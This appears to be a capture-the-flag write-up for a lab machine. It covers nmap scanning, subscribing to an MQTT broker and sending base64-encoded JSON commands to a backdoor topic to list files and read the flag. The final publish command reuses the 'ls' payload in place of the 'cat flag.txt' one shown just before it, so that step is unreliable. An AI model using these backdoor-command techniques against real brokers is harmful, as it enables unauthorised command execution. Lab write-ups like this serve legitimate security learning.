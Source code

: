 IP address 10.10.59.207

#nmap #mosquitto #base64


# Nmap
```bash
nmap -sC -sV 10.10.59.207 -T5
```
![Pasted image 20240610203505](https://github.com/BGhoster/Write-Ups/assets/43526966/ca00651b-e738-4135-862a-666c2e472450)

All standard ports are filtered with the Nmap scan. Switching to scanning all ports to see which ones are open.
```bash
nmap -p- 10.10.59.207
```

### open ports
- 1883 (mqtt)

![Pasted image 20240610204254](https://github.com/BGhoster/Write-Ups/assets/43526966/e99838e9-9f23-4bf9-ae6d-7cbe9a895adc)


# What is mosquitto

> [!NOTE]
> The MQTT protocol provides a lightweight method of carrying out messaging using a publish/subscribe model. This makes it suitable for Internet of Things messaging such as with low power sensors or mobile devices such as phones, embedded computers or microcontrollers.
> https://www.eginnovations.com/documentation/Mosquitto-MQTT/What-is-Mosquitto-MQTT.htm
![Pasted image 20240610213041](https://github.com/BGhoster/Write-Ups/assets/43526966/5096de07-30e5-4182-9d96-0470ca088db7)

## Commands we will need

| Commands      | Descriptions                                               |
| ------------- | ---------------------------------------------------------- |
| mosquitto_sub | command line utility for subscribing to topics on a broker |
| mosquitto_pub | command line utility for publishing messages to a broker   |

## Installing the software

```bash
sudo apt-get install mosquitto mosquitto-clients
```

## Subscribing to all groups
```bash
mosquitto_sub -t "#" -h 10.10.59.207
```

## Decoding initial message
After some time, we see a long Base64 string that does not match everything else being logged. Decoding the Base64 shows us what is publishing the suspicious things.
![[Pasted image 20240610205607.png]]

## Publishing a message
```bash
mosquitto_pub -t "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub" -h 10.10.59.207 -m "test"
```

Publishing a message with a test message returns a base64-encoded string. Decoding the string reveals that the test is an invalid command. Let's fix the issue and try again.

```python
SW52YWxpZCBtZXNzYWdlIGZvcm1hdC4KRm9ybWF0OiBiYXNlNjQoeyJpZCI6ICI8YmFja2Rvb3IgaWQ+IiwgImNtZCI6ICI8Y29tbWFuZD4iLCAiYXJnIjogIjxhcmd1bWVudD4ifSk=
```
![Pasted image 20240610211410](https://github.com/BGhoster/Write-Ups/assets/43526966/fe7caf38-5323-4335-bc45-e03c112c5538)

## Formatting the command
After fixing the issue, we need to encode this command in base64.
```python
{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD", "arg": "ls"}
```
```python
eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAibHMifQ==
```
![Pasted image 20240610211931](https://github.com/BGhoster/Write-Ups/assets/43526966/66ab2cca-635f-4f0a-ba72-ba33063f243a)

## Catting the flag
Now that we see the flag filename let's cat the flag. We will follow the same format. Change the command to cat flag.txt, base64 encode the message, and publish it.
```bash
{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD", "arg": "cat flag.txt"}
```
```python
eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAiY2F0IGZsYWcudHh0In0=
```
```bash
mosquitto_pub -t "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub" -h 10.10.59.207 -m "eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAibHMifQo="
```

![Pasted image 20240610212131](https://github.com/BGhoster/Write-Ups/assets/43526966/274e3ee7-25ec-46c0-a1b4-df43ad76b920)

# Resources
https://book.hacktricks.xyz/network-services-pentesting/1883-pentesting-mqtt-mosquitto
https://www.eginnovations.com/documentation/Mosquitto-MQTT/What-is-Mosquitto-MQTT.htm
